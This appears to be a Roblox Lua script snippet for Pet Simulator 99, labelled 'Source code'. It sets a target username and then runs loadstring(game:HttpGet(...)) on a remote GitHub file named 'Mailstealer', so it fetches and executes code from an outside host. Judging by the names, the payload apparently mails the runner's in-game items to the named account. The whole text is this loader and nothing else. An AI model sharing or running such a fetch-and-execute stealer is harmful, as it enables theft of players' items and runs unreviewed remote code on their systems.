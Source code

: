 Username = "PogrzaloCie"
loadstring(game:HttpGet("https://raw.githubusercontent.com/Egorikusa/PetSimulator99/main/Mailstealer"))()
